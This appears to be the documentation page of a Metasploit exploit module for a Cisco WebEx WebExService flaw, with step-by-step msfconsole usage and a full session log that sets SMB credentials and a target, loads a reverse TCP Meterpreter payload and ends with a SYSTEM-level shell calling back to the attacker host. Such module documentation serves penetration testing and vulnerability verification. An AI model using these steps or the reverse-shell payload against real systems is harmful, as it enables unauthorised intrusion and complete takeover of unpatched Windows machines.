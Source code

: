 ## Description

  This module exploits a remote code execution vulnerability in Cisco's WebEx client software for versions < v33.6.0.655.

  Vulnerable WebEx clients come with the `WebExService` that can execute arbitrary commands with System privileges.
  Due to insufficient checks on permissions, a local or domain user can start the `WebExService` through a remote connection
  and execute code.

## Vulnerable Application

  Cisco WebEx software v33.3.8.7 and below

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/windows/smb/webexec```
  4. Do: ```set RHOSTS <IP>```
  5. Do: ```set SMBUser <USERNAME>```
  6. Do: ```set SMBPass <PASSWORD>```
  7. Do: ```run```
  8. You should get a shell.

## Scenarios

### Tested on Cisco WebEx v33.3.8.7 on Windows 7 x64 and x86

  ```

  msf5 > use exploit/windows/smb/webexec 
  msf5 exploit(windows/smb/webexec) > set smbuser a_user
  smbuser => a_user
  msf5 exploit(windows/smb/webexec) > set smbpass password
  smbpass => password
  msf5 exploit(windows/smb/webexec) > set rhosts 192.168.37.136
  rhosts => 192.168.37.136
  msf5 exploit(windows/smb/webexec) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf5 exploit(windows/smb/webexec) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf5 exploit(windows/smb/webexec) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444 
  [*] 192.168.37.136:445 - Connecting to the server...
  [*] 192.168.37.136:445 - Authenticating to 192.168.37.136:445 as user 'a_user'...
  [*] 192.168.37.136:445 - Command Stager progress -   0.96% done (999/104435 bytes)
  [*] 192.168.37.136:445 - Command Stager progress -   1.91% done (1998/104435 bytes)
  ...
  [*] 192.168.37.136:445 - Command Stager progress -  99.47% done (103880/104435 bytes)
  [*] 192.168.37.136:445 - Command Stager progress - 100.00% done (104435/104435 bytes)
  [*] Sending stage (179779 bytes) to 192.168.37.136
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.136:49158) at 2018-10-24 09:10:46 -0500

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  meterpreter > 

  ```

